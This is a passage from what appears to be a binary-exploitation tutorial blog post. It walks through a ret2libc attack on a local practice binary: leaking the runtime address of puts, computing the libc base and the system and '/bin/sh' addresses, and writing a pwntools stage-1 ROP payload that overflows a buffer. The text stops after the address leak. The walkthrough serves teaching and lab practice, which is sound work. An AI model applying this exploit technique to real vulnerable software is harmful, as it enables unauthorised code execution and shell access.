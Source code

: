After executing the exploit, we see the leaked real address of puts in hex.
<br>
<p align="center">
  	<img width="614" height="270" src="https://fir3wa1-k3r.github.io/imgs/pwn_20.png">
</p>
<br>
We can calculate the real address where the libc is loaded from the leaked address of puts using some simple calcuations. We also can calculate real addresses of other functions using the same. First we have to identify the offset of the puts function in the libc library. We can use `readelf` command to read the symbols and to display their offset in libc library. We also need the offset of the system function and the string "/bin/sh" so we can try to spawn a shell. strings command can help to identify the offset of the string "/bin/sh" in libc.
<br>
<p align="center">
  	<img width="890" height="185" src="https://fir3wa1-k3r.github.io/imgs/pwn_21.png">
</p>
<br>
Now, we calculate the base and real addresses using the below formula:

libc base address = leaked real puts address - offset of puts
real system address = libc base address + offset of system<br>
real system address = libc base address + offset of "/bin/sh"

So, here is the overall exploit to pwn the binary and spawn a shell.
<br>
{% highlight ruby %} 
import struct
from pwn import *

# Setup env
elf = ELF("./vuln")
p = elf.process()

# Declarations
pop_rdi_ret = 0x400603		#0x0000000000400603 : pop rdi ; ret
main = 0x400566		#0000000000400566 <main>
puts_plt = 0x400430	#0000000000400430 <puts@plt>
puts_got = 0x601018
puts_offset = 0x6f690		#000000000006f690 puts@@GLIBC_2.2.5
system_offset = 0x45390		#0000000000045390 system@@GLIBC_2.2.5
sh_offset = 0x18cd57		#18cd57 /bin/sh

# Stage-1 Payload
buf = ""
buf += "A" * 40
buf += struct.pack("<Q", pop_rdi_ret)
buf += struct.pack("<Q", puts_got)
buf += struct.pack("<Q", puts_plt)
buf += struct.pack("<Q", main)

# Send Stage-1
p.recvuntil("Enter your name:")
p.sendline(buf)
p.recvline()
p.recvline()
leaked_puts = u64( p.recvline().strip().ljust(8,"\x00"))
log.info("Leaked address of puts: " + str(hex(leaked_puts)))
